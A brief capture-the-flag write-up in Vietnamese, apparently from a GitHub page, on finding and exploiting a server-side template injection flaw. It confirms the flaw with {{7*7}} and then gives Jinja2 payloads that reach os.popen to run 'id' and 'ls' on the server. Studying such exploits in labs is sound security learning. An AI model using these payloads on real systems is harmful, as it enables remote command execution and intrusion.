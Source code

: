 ![alt text](image-22.png)
Sau khi nhập giá trị nó reflected lại và cũng tên challenge xác nhận đây là 1 lổ hổng SSTI
Đưa payload {{7*7}}
![alt text](image-23.png)
Được rồi.
### Khai thác
Thực thi payload
<b>{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}</b>
![alt text](image-24.png)
<b>{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}</b>
